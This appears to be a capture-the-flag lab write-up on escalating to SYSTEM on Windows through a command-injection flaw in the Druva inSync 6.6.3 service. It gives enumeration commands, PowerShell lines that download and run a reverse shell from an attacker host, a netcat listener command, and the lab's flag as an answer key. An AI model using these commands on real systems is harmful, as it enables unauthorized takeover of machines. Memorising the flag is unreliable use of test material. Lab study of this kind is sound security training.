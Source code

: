 # Vulnerable Services

Some services/applications may allow us to escalate to SYSTEM and other may allow access to sensitive data such as files containing passwords.

**Enumerating Installed Programs**

```cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

From the output above Druva inSync 6.6.3 application is vulnerable to a command injection attack via an exposed RPC service.

{% embed url="https://www.exploit-db.com/exploits/49211" %}
Exploit to escalate our privilege
{% endembed %}

**Enumerating Local Ports**

Furthur enumeration to explore port 6064

```cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

**Enumerating Process ID**

Enumerate the process id 3324 from above

```powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

**Enumerating Running Service**

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

### Druva inSync Windows Client Local Privilege Escalation Example

**Modifying PowerShell PoC**

modify the `$cmd` variable from the link of the exploit above to our desired command (send us the reverse shell)

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}
Use this reverse shell
{% endembed %}



```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"
```

[modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy)

## Assessment

Work through the steps above to escalate privileges on the target system using the Druva inSync flaw. Submit the contents of the flag in the VulServices folder on the Administrator Desktop.

<details>

<summary>Walkthrough</summary>

Add the following line to the nishang powershell reverse shell script

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 7890
```

![](<../../../.gitbook/assets/image (38).png>)

edit the exploit at tthe cmd variable to&#x20;

```
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.5:8000/shell.ps1')
```

Move the exploit to the target host (the reverse shell powershell script still on the attack host)

Start a netcat listener (Using rlwrap)\_

```
rlwrap nc -lvnp 7890
```

Execute the exploit, The exploit will try to get the shell.ps1 from our system (make sure to run python server before hand) and then execute the shell.ps1&#x20;

At the listener we will get the shell as SYSTEM user.

<img src="../../../.gitbook/assets/image (115) (1).png" alt="" data-size="original"> Aud1t\_th0se\_th1rd\_paRty\_s3rvices!

</details>
